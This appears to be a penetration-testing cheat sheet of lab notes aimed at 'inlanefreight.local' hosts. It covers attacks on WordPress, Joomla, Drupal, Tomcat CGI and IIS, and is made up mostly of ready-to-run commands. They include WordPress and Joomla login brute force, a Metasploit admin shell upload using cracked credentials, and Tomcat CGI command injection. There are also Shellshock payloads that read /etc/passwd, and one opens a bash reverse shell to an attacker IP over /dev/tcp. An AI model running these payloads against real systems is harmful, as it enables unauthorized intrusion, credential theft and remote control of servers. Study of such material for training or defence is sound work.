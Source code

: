 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## Joomla

### Enumeration

[droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.  

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Brute Force

[joomla-brute.py](https://github.com/ajnik/joomla-bruteforce)
```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Drupal

### Enumeration

```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Tomcat CGI

### Fuzzing Extentions - .CMD

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### Fuzzing Extentions - .BAT

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Enumeration - Gobuster

```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Exploitation 
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Confirming the Vulnerability

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### Exploitation to Reverse Shell Access

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```


# Miscellaneous Applications

## IIS Tilde Enumeration

### Tilde Enumeration using IIS ShortName Scanner

[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```

### Generate Wordlist

```
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

```
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```
